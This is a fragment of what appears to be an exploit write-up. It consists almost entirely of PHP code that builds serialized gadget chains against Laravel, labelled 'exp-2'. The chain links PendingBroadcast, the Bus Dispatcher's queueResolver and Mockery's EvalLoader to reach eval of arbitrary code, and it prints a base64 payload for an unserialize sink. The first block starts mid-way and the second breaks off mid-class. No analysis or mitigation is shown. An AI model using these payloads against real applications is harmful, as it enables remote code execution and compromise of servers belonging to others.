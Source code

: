 ```php
namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent {
        public $connection;
        public function __construct() {
            $this->connection = new MockDefinition();
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```

### exp-2
```php
<?php
namespace Symfony\Component\HttpFoundation {
    class Cookie {
        protected $name = "H3rmesk1t";
    }
}

namespace Mockery\Generator {
    use Symfony\Component\HttpFoundation\Cookie;
    class MockDefinition {
        protected $config;
        protected $code;
        public function __construct($code) {
            $this->config = new cookie();
            $this->code = $code;
        }
    }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Illuminate\Bus {
    use Mockery\Loader\EvalLoader;
    class Dispatcher {
        protected $queueResolver;
        public function __construct() {
            $this->queueResolver = [new EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent {
        public $connection;
        public function __construct() {
```